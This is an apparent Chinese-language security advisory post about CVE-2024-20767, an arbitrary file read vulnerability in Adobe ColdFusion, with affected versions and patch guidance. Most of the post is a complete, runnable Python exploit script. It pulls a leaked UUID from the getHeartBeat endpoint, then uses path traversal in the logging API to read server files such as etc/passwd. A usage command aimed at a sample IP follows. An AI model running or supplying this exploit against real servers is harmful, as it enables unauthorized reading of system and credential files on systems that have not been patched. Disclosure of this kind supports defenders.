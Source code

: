 #  【漏洞预警】Adobe ColdFusion任意文件读取漏洞CVE-2024-20767   
cexlife  飓风网络安全   2024-03-27 18:39  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu00HW0aK4ya4v8MHjsfvZWcibPIicxw5tQHoVNCW29OlCWkmb67BEwsnHlLsuicLsxoFtzM0SOVzh6O9Q/640?wx_fmt=png&from=appmsg "")  
  
**漏洞描述:**  
Adobe ColdFusion,是一个动态Web服务器,Coldfusion最早是由Allaire公司开发的一种应用服务器平台,其运行的CFML（ColdFusionMarkup Language）针对Web应用的一种脚本语言,文件以*.cfm为文件名,在ColdFusion专用的应用服务器环境下运行,近日监测到Adobe ColdFusion存在一个任意文件读取漏洞,未授权的攻击者可以绕过认证访问后台某接口并利用路径遍历来读取服务器上的任意文件,该漏洞是由于Adobe ColdFusion在存在一个接口泄露了uuid,而使用该uuid可访问后台logging模块API,其中未对文件名进行验证过滤,导致可以读取任意文件。  
  
import requestsimport reimport urllib3import argparseurllib3.disable_warnings()parser = argparse.ArgumentParser()parser.add_argument("-t", "--target",required=True, help="Target Adobe ColdFusion Server URL")parser.add_argument("-p", "--port",required=False, default=8500, help="Target Adobe ColdFusion Server Port, by default we use the 8500 Port")parser.add_argument("-c", "--command", required=True,help="File to read path") # Example in Windows Server 'Windows/ServerStandardEval.xml' or Linux Server "etc/passwd"args = parser.parse_args()def get_uuid():    endpoint = "/CFIDE/adminapi/_servermanager/servermanager.cfc?method=getHeartBeat" # Vulnerable endpoint to get the UUID    session = requests.Session()    try:        response = session.get(args.target+":"+str(args.port)+endpoint, verify=False)        print("[+] Connecting to ColdFusion Server...")        repattern = r"<var name='uuid'><string>(.+?)</string></var>" # Regex expression to get UUID        uuid = re.findall(repattern, response.text)[0]        print("[+] UUID Obtained: ", uuid)        return uuid    except:        print("[-] Error connecting to server")def exploit(uuid):    headers = {        "uuid": uuid    }    session = requests.Session()    endpoint2 = "/pms?module=logging&file_name=../../../../../../../"+args.command+"&number_of_lines=100" # Vulnerable endpoint to read files    response = session.get(args.target+":"+str(args.port)+endpoint2, verify=False, headers=headers)    if response.status_code == 200 and int(response.headers["Content-Length"]) > 2:        print("[+] Succesfully read file!")        print(response.text)    else:        print("[-] Something went wrong while reading file or the file doesn't exist")if __name__ == "__main__":    exploit(get_uuid())  
  
  
python CVE-2024-20767.py -t http://192.168.124.203 -p 8500 -c Windows/ServerStandardEval.xml  
**影响版本:**Adobe ColdFusion 2021<=Update 12Adobe ColdFusion 2023<=Update 6**修复建议:**正式防护方案:官方已修复该漏洞，建议用户更新到安全版本**安全版本:**Adobe ColdFusion 2023 >= Update 7Adobe ColdFusion 2021 >= Update 13 **参考链接:**https://helpx.adobe.com/security/products/coldfusion/apsb24-14.html  
